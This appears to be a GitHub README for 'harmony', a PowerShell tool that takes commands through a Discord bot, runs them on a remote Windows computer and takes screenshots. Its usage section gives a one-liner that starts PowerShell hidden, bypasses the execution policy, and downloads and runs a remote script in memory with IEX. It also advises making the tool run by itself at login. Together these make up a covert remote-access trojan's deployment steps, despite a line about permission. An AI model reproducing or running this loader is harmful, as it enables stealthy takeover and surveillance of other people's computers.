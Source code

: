 # This code is in the alpha stage and currently being tested. Not suitable for real usage.

Temporary note: Currently command running and Discord Bot has been working, Screenshot function is untested because I don't have access right now to a Windows computer and only a Mac, Webhook seems to not be working but isn't currently a priority.

A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing);exit"
```
